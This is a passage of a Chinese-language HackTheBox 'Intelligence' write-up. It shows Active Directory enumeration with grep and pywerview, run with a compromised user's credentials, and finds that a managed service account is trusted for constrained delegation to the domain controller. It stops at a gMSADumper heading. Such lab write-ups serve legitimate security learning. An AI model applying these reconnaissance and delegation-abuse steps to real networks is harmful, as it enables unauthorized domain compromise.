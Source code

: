 # 受约束的委托

我已经从 AD 转储了我们可以访问的所有内容，因此输出会持续很长时间。这是我们感兴趣的部分:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# grep "DELEGATION" *.grep

domain_computers.grep:svc_int   svc_int$  svc_int.intelligence.htb    WORKSTATION_ACCOUNT, TRUSTED_TO_AUTH_FOR_DELEGATIONdomain_computers.grep:DC        DC$       dc.intelligence.htb       SERVER_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION
```

# Pywerview

更多搜索找到了[这篇](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation)有用的文章。它提到了关于委托信任的计算机对象，所以我使用 Python 版本的 PowerView 从[这里](https://github.com/the-useless-one/pywerview)获取了更多详细信息:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# git clone [https://github.com/the-useless-one/pywerview.git](https://github.com/the-useless-one/pywerview.git)Cloning into 'pywerview'...
remote: Enumerating objects: 1731, done.
remote: Counting objects: 100% (571/571), done.
remote: Compressing objects: 100% (323/323), done.
remote: Total 1731 (delta 425), reused 385 (delta 247), pack-reused 1160
Receiving objects: 100% (1731/1731), 383.68 KiB | 1.76 MiB/s, done.
Resolving deltas: 100% (1235/1235), done.

┌──(root💀kali)-[~/htb/intelligence/pywerview]
└─# python3 ./pywerview.py get-netcomputer -u Ted.Graves -p <HIDDEN> -w intelligence.htb --computername svc_int.intelligence.htb -t 10.10.10.248 --full-data
```

从冗长的输出来看，这是关键部分:

```
accountexpires:                 never
distinguishedname:              CN=svc_int,CN=Managed Service Accounts,DC=intelligence,DC=htb
dnshostname:                    svc_int.intelligence.htb
msds-allowedtodelegateto:       WWW/dc.intelligence.htb
name:                           svc_int
objectcategory:                 CN=ms-DS-Group-Managed-Service-Account,CN=Schema,CN=Configuration,DC=intelligence,DC=htb
objectclass:                    msDS-GroupManagedServiceAccount
samaccountname:                 svc_int$
useraccountcontrol:             ['WORKSTATION_TRUST_ACCOUNT', 'TRUSTED_TO_AUTH_FOR_DELEGATION']
```

# gMSADumper
